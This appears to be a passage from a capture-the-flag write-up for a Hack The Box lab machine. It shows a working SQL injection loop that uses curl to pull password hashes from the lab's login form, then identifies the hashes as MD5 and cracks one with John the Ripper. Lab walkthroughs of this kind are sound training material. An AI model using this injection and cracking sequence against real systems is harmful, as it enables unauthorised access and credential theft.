 ```bash
❯ for i in `seq 0 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,password from user limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
2b22337f218b2d82dfc3b6f77e7cb8ec
81dc9bdb52d04dc20036dbd8313ed055
```
We obtained credentials for the `admin` and `revan` users, but they are encrypted, so we must first identify the type of hash function used to encrypt them:
```bash
❯ hashid 81dc9bdb52d04dc20036dbd8313ed055
Analyzing '81dc9bdb52d04dc20036dbd8313ed055'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
❯ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 81dc9bdb52d04dc20036dbd8313ed055

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
As we can see, the hash is probably MD5, so we can test it as we know the credentials for `revan`:`1234`:
```bash
❯ echo "1234" > Results/revan_passwd
❯ echo "81dc9bdb52d04dc20036dbd8313ed055" > Results/revan_hash
❯ john --wordlist=Results/revan_passwd Results/revan_hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 12 needed for performance.
1234             (?)
1g 0:00:00:00 DONE (2022-06-04 18:50) 50.00g/s 50.00p/s 50.00c/s 50.00C/s 1234
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
